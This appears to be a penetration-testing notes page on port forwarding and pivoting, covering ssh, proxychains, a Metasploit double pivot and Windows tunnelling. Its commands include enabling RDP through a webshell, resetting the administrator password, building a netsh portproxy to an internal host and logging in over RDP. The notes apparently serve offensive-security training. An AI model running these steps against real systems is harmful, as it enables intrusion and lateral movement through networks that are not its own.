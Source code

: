 # Forwarding

Port forwarding can be useful if you get on to a victim and they are running a service locally that you want to interact with back on the attack machine. Or if the victim is connected to a network the attacker cannot access directly, proxychains in this case would allow the attacker to use the victim to attack the rest of the network


## ssh

![Pasted image 20220807173120](https://github.com/dbissell6/Shadow_Stone/assets/50979196/0868e1b6-51dd-443b-8adc-e7b5a0b44764)

<img width="587" alt="Screen Shot 2022-10-02 at 7 14 03 PM" src="https://github.com/dbissell6/Shadow_Stone/assets/50979196/790e1b77-fde9-4761-ae00-e3cda178ff00">

## Example with ssh and proxy chains
This example assumes attacker reached a victim that has access to networks the attacker had not previously had access to.

## proxychains
make sure config is set up

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/12574f68-19d3-4858-824f-b589face8588)

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/1fe6b9e9-7206-4351-898c-1927972db6a1)


```
proxychains nmap -sV -sC -Pn -v -A --reason 172.16.8.3 2>&1 | grep -v -E 'socket error|timeout|Strict'
```

### Using Firefox
Settings-> proxy

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/8e5ae2e6-6dcc-4110-ae32-be7936c977f4)

## Double pivot with metasploit
This chain will allow us to directly ssh MGMT01 from kali
Attack -> dmz01 -> DC01 -> MGMT01

3 steps 
1) create linux meterpreter shell for dmz01
2) create windows meterpreter shell for DC01
3) configure msfconsole
4) run dmz

![image](https://github.com/dbissell6/Shadow_Stone/assets/50979196/de563e25-4b0b-4373-91ce-be1e27496bb1)


## chisel


## without ssh on windows

without ssh 
First, from the webshell, set the registry key so we can log in

```Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

dont know any creds on the box so let’s just change the local admin’s pass, from the webshell

```Powershell
net user administrator newpass
```

now, from the linux attack host, log into a very limited cmd shell on WEB-WIN01 to setup a tunnel, where WEB-WIN01 is also the 10.X.X.X ip address of the webshell

```bash
xfreerdp /v:<WEB-WIN01> /u:administrator /p:newpass /cert:ignore
```

in the new RDP cmd window, after using `nslookup` to discover MS01 is `172.16.6.50` , make a tunnel with the `netsh` command which links WEB01’s 10.X.X.X reachable address on port 1515 to MS01’s RDP port 3389, like this:

```cmd
netsh interface portproxy add v4tov4 listenport=1515 listenaddress=<WEB-WIN01> connectport=3389 connectaddress=172.16.6.50
```

RDP into MS01 from our attack host through the tunnel we just made to MS01 on WEB-WIN01 port 1515:

```bash
xfreerdp /v:<WEB-WIN01>:1515 /u:svc_XXX /p:XXckX7 /cert:ignore
```
